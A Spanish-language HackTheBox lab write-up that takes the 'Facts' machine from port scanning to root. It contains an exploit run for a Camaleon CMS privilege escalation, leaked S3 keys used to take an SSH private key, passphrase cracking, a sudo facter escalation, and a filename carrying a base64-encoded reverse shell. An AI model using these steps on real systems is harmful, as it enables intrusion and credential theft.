

# Write-up: Facts (HackTheBox)

**Fecha:** 29 de marzo, 2026  
**Objetivo:** Obtener acceso de superusuario (root) y leer la bandera/correo de felicitación.  
**Dificultad:** Easy

---

## 1. Reconocimiento y Enumeración de Red

El primer paso fue identificar la dirección IP de la máquina objetivo dentro de la red local.

```bash
$ sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.20.236 -oG allPorts
[sudo] password for edibauer: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-29 18:35 -0600
Initiating SYN Stealth Scan at 18:35
Scanning 10.129.20.236 [65535 ports]
Discovered open port 80/tcp on 10.129.20.236
Discovered open port 22/tcp on 10.129.20.236
Discovered open port 54321/tcp on 10.129.20.236
Completed SYN Stealth Scan at 18:35, 14.21s elapsed (65535 total ports)
Nmap scan report for 10.129.20.236
Host is up, received user-set (0.22s latency).
Scanned at 2026-03-29 18:35:43 CST for 14s
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack ttl 63
80/tcp    open  http    syn-ack ttl 63
54321/tcp open  unknown syn-ack ttl 62

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 14.35 seconds
           Raw packets sent: 69298 (3.049MB) | Rcvd: 69293 (2.772MB)

```

---

## 2. Escaneo de Puertos y Servicios

Se realizó un escaneo profundo para determinar qué puertas estaban abiertas y qué versiones de software se estaban ejecutando.

```bash
$ sudo nmap -sCV -p22,80,54321 10.129.20.236 -oN targeted
22/tcp    open  ssh     OpenSSH 9.9p1 Ubuntu 3ubuntu3.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4d:d7:b2:8c:d4:df:57:9c:a4:2f:df:c6:e3:01:29:89 (ECDSA)
|_  256 a3:ad:6b:2f:4a:bf:6f:48:ac:81:b9:45:3f:de:fb:87 (ED25519)
80/tcp    open  http    nginx 1.26.3 (Ubuntu)
|_http-title: Did not follow redirect to http://facts.htb/
|_http-server-header: nginx/1.26.3 (Ubuntu)
54321/tcp open  http    Golang net/http server
|_http-title: Did not follow redirect to http://10.129.20.236:9001
|_http-server-header: MinIO
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Accept-Ranges: bytes
|     Content-Length: 303
|     Content-Type: application/xml
|     Server: MinIO
|     Strict-Transport-Security: max-age=31536000; includeSubDomains
|     Vary: Origin
|     X-Amz-Id-2: dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8
|     X-Amz-Request-Id: 18A1776AB8D84073
|     X-Content-Type-Options: nosniff
|     X-Xss-Protection: 1; mode=block
|     Date: Mon, 30 Mar 2026 00:37:08 GMT
|     <?xml version="1.0" encoding="UTF-8"?>
|     <Error><Code>InvalidRequest</Code><Message>Invalid Request (invalid argument)</Message><Resource>/nice ports,/Trinity.txt.bak</Resource><RequestId>18A1776AB8D84073</RequestId><HostId>dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8</HostId></Error>
|   GenericLines, Help, RTSPRequest, SSLSessionReq: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 400 Bad Request
|     Accept-Ranges: bytes
|     Content-Length: 276
|     Content-Type: application/xml
|     Server: MinIO
|     Strict-Transport-Security: max-age=31536000; includeSubDomains
|     Vary: Origin
|     X-Amz-Id-2: dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8
|     X-Amz-Request-Id: 18A177663D5C614A
|     X-Content-Type-Options: nosniff
|     X-Xss-Protection: 1; mode=block
|     Date: Mon, 30 Mar 2026 00:36:49 GMT
|     <?xml version="1.0" encoding="UTF-8"?>
|     <Error><Code>InvalidRequest</Code><Message>Invalid Request (invalid argument)</Message><Resource>/</Resource><RequestId>18A177663D5C614A</RequestId><HostId>dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8</HostId></Error>
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Vary: Origin
|     Date: Mon, 30 Mar 2026 00:36:49 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port54321-TCP:V=7.98%I=7%D=3/29%Time=69C9C5A0%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20
SF:text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\
SF:x20Request")%r(GetRequest,2B0,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nAc
SF:cept-Ranges:\x20bytes\r\nContent-Length:\x20276\r\nContent-Type:\x20app
SF:lication/xml\r\nServer:\x20MinIO\r\nStrict-Transport-Security:\x20max-a
SF:ge=31536000;\x20includeSubDomains\r\nVary:\x20Origin\r\nX-Amz-Id-2:\x20
SF:dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8\r\nX-A
SF:mz-Request-Id:\x2018A177663D5C614A\r\nX-Content-Type-Options:\x20nosnif
SF:f\r\nX-Xss-Protection:\x201;\x20mode=block\r\nDate:\x20Mon,\x2030\x20Ma
SF:r\x202026\x2000:36:49\x20GMT\r\n\r\n<\?xml\x20version=\"1\.0\"\x20encod
SF:ing=\"UTF-8\"\?>\n<Error><Code>InvalidRequest</Code><Message>Invalid\x2
SF:0Request\x20\(invalid\x20argument\)</Message><Resource>/</Resource><Req
SF:uestId>18A177663D5C614A</RequestId><HostId>dd9025bab4ad464b049177c95eb6
SF:ebf374d3b3fd1af9251148b658df7ac2e3e8</HostId></Error>")%r(HTTPOptions,5
SF:9,"HTTP/1\.0\x20200\x20OK\r\nVary:\x20Origin\r\nDate:\x20Mon,\x2030\x20
SF:Mar\x202026\x2000:36:49\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSP
SF:Request,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
SF:equest")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:
SF:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20
SF:Bad\x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request
SF:\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20clo
SF:se\r\n\r\n400\x20Bad\x20Request")%r(FourOhFourRequest,2CB,"HTTP/1\.0\x2
SF:0400\x20Bad\x20Request\r\nAccept-Ranges:\x20bytes\r\nContent-Length:\x2
SF:0303\r\nContent-Type:\x20application/xml\r\nServer:\x20MinIO\r\nStrict-
SF:Transport-Security:\x20max-age=31536000;\x20includeSubDomains\r\nVary:\
SF:x20Origin\r\nX-Amz-Id-2:\x20dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af
SF:9251148b658df7ac2e3e8\r\nX-Amz-Request-Id:\x2018A1776AB8D84073\r\nX-Con
SF:tent-Type-Options:\x20nosniff\r\nX-Xss-Protection:\x201;\x20mode=block\
SF:r\nDate:\x20Mon,\x2030\x20Mar\x202026\x2000:37:08\x20GMT\r\n\r\n<\?xml\
SF:x20version=\"1\.0\"\x20encoding=\"UTF-8\"\?>\n<Error><Code>InvalidReque
SF:st</Code><Message>Invalid\x20Request\x20\(invalid\x20argument\)</Messag
SF:e><Resource>/nice\x20ports,/Trinity\.txt\.bak</Resource><RequestId>18A1
SF:776AB8D84073</RequestId><HostId>dd9025bab4ad464b049177c95eb6ebf374d3b3f
```

---

## 3. Enumeración Carpetas

```bash
$ gobuster dir -u http://facts.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://facts.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index                (Status: 200) [Size: 11113]
search               (Status: 200) [Size: 19187]
rss                  (Status: 200) [Size: 183]
sitemap              (Status: 200) [Size: 3508]
en                   (Status: 200) [Size: 11109]
page                 (Status: 200) [Size: 19593]
welcome              (Status: 200) [Size: 11966]
admin                (Status: 302) [Size: 0] [--> http://facts.htb/admin/login]
post                 (Status: 200) [Size: 11308]
ajax                 (Status: 200) [Size: 0]
Index                (Status: 200) [Size: 11113]
up                   (Status: 200) [Size: 73]
-                    (Status: 200) [Size: 11098]
404                  (Status: 200) [Size: 4836]
robots               (Status: 200) [Size: 33]
EN                   (Status: 200) [Size: 11109]
400                  (Status: 200) [Size: 6685]
error                (Status: 500) [Size: 7918]
500                  (Status: 200) [Size: 7918]
422                  (Status: 200) [Size: 8380]
captcha              (Status: 200) [Size: 4985]
INDEX                (Status: 200) [Size: 11113]
En                   (Status: 200) [Size: 11109]

$ gobuster dir -u http://facts.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x txt,html,php
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://facts.htb
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              txt,html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index                (Status: 200) [Size: 11113]
index.txt            (Status: 500) [Size: 7918]
index.php            (Status: 200) [Size: 11125]
index.html           (Status: 200) [Size: 11128]
search               (Status: 200) [Size: 19187]
search.html          (Status: 200) [Size: 19212]
search.txt           (Status: 500) [Size: 7918]
search.php           (Status: 200) [Size: 19207]
rss.html             (Status: 200) [Size: 183]
rss.txt              (Status: 200) [Size: 183]
rss                  (Status: 200) [Size: 183]
rss.php              (Status: 200) [Size: 183]
sitemap              (Status: 200) [Size: 3508]
sitemap.txt          (Status: 500) [Size: 7918]
sitemap.php          (Status: 200) [Size: 2090]
sitemap.html         (Status: 200) [Size: 12139]
en                   (Status: 200) [Size: 11109]
en.txt               (Status: 500) [Size: 7918]
en.html              (Status: 200) [Size: 11124]
en.php               (Status: 200) [Size: 11121]
page.html            (Status: 200) [Size: 19618]
page.txt             (Status: 500) [Size: 7918]
page                 (Status: 200) [Size: 19593]
page.php             (Status: 200) [Size: 19613]
welcome              (Status: 200) [Size: 11966]
admin                (Status: 302) [Size: 0] [--> http://facts.htb/admin/login]
admin.txt            (Status: 302) [Size: 0] [--> http://facts.htb/admin/login]
welcome.html         (Status: 200) [Size: 11981]
admin.html           (Status: 302) [Size: 0] [--> http://facts.htb/admin/login]
admin.php            (Status: 302) [Size: 0] [--> http://facts.htb/admin/login]
post                 (Status: 200) [Size: 11308]
post.txt             (Status: 500) [Size: 7918]
post.html            (Status: 200) [Size: 11323]
post.php             (Status: 200) [Size: 11320]
ajax                 (Status: 200) [Size: 0]
ajax.txt             (Status: 200) [Size: 0]
ajax.php             (Status: 200) [Size: 0]
ajax.html            (Status: 200) [Size: 0]
Index                (Status: 200) [Size: 11113]
Index.html           (Status: 200) [Size: 11128]
up.txt               (Status: 200) [Size: 73]
up.html              (Status: 200) [Size: 73]
up                   (Status: 200) [Size: 73]
up.php               (Status: 200) [Size: 73]
```

---

## 4. Investigación de Vulnerabilidades (Exploit Research)
### CVE-2025-2304
https://github.com/Alien0ne/CVE-2025-2304

- We need to create a user and password to login in the web

```bash
python3 exploit.py -u http://facts.htb -U test -P test123 -e
[+]Camaleon CMS Version 2.9.0 PRIVILEGE ESCALATION (Authenticated)
[+]Login confirmed
   User ID: 5
   Current User Role: admin
[+]Loading PPRIVILEGE ESCALATION
   User ID: 5
   Updated User Role: admin
[+]Extracting S3 Credentials
   s3 access key: AKIAC34F9D7A9097174A
   s3 secret key: FId1/GNY6chzBMpVsxoT4wrMHWLYw1S0cOMxHRDM
   s3 endpoint: http://localhost:54321
[+]Reverting User Role

# INSTALLING AWS CLI
$ sudo apt install awscli

# SETTING CREDENTIALS
$ aws configure --profile facts
AWS Access Key ID [None]: AKIAC34F9D7A9097174A
AWS Secret Access Key [None]: FId1/GNY6chzBMpVsxoT4wrMHWLYw1S0cOMxHRDM
Default region name [None]: us-east-1
Default output format [None]: json

# LISTING
$ aws s3 ls --endpoint-url http://facts.htb:54321 --profile facts

2025-09-11 06:06:52 internal
2025-09-11 06:06:52 randomfacts

# LISTING BY BUCKET
aws s3 ls s3://randomfacts --endpoint-url http://facts.htb:54321 --profile facts
                           PRE thumb/
2026-03-29 22:18:52          0 _echo_YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNy4xOTgvNDMyMSAwPiYxCg___base64_-d_bash_.jpg
2025-09-11 06:07:06     446847 animalejected.png
2025-09-11 06:07:06     271210 annefrankasteroid.png
2025-09-11 06:07:06     255778 catsattachment.png
2025-09-11 06:07:05     411597 cuteanimals.png
2025-09-11 06:07:05     177331 darkchocolate.png
2026-03-29 22:24:46         11 debug.txt.erb
2025-09-11 06:07:05     312753 dogscatssmell.png
2025-09-11 06:07:04     922561 dolphinfact.png
2025-09-11 06:07:04      67352 finlandhappiest.png
2025-09-11 06:07:04     388178 firstimpressions.png
2025-09-11 06:07:04     100689 firsttransaction.png
2025-09-11 06:07:03     222436 firstwebcam.png
2025-09-11 06:07:03     128158 georgewashingtonslaves.png
2025-09-11 06:07:03      34816 logopage.png
2025-09-11 06:07:03      16886 logopage2.png
2025-09-11 06:07:02      80796 pressureupbeat.png
2025-09-11 06:07:02      24792 primary-question-mark.png
2025-09-11 06:07:02     341284 smallanimals.png
2025-09-11 06:07:02     332397 superiorpeople.png
2026-03-29 21:16:21     455779 v.jpg
2026-03-29 21:26:27     455779 v_1.jpg
2026-03-29 21:26:47     455779 v_2.jpg
2025-09-11 06:07:01      39579 vanilla.png
2025-09-11 06:07:01      35769 youtubewatchhours.png

$ aws s3 ls --endpoint-url http://facts.htb:54321 s3://internal --profile facts
                           PRE .bundle/
                           PRE .cache/
                           PRE .ssh/
2026-01-08 12:45:13        220 .bash_logout
2026-01-08 12:45:13       3900 .bashrc
2026-01-08 12:47:17         20 .lesshst
2026-01-08 12:47:17        807 .profile

# DOWNLOADING CONTENT
$ aws s3 cp --endpoint-url http://facts.htb:54321 s3://internal/.ssh . --recursive --profile facts
download: s3://internal/.ssh/authorized_keys to ./authorized_keys  
download: s3://internal/.ssh/id_ed25519 to ./id_ed25519

# USING JOHN
$ ssh2john id_ed25519 > ssh.hash
$ john ssh.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 24 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
dragonballz      (id_ed25519)     
1g 0:00:01:18 DONE (2026-03-29 23:22) 0.01277g/s 40.86p/s 40.86c/s 40.86C/s billy1..imissu
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

# SSH
$ chmod 600 id_ed25519
$ ssh-keygen -p -f id_ed25519

Enter old passphrase: 
Key has comment 'trivia@facts.htb'
Enter new passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved with the new passphrase.

$ ssh -i id_ed25519 trivia@facts.htb


```


---

## 5. Post-Explotación y Root

```bash

$ sudo -l
Matching Defaults entries for trivia on facts:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User trivia may run the following commands on facts:
    (ALL) NOPASSWD: /usr/bin/facter

$ mkdir /tmp/exploit
$ cd /tmp/exploit
$ echo -e '#!/usr/bin/env ruby\nsystem("/bin/bash")' > shell.rb

$ sudo /usr/bin/facter --custom-dir=/tmp/exploit
root@facts:~# 
```

---

## Conclusión
- AWS S3 Enum
- SSH Key
- Facter LPE
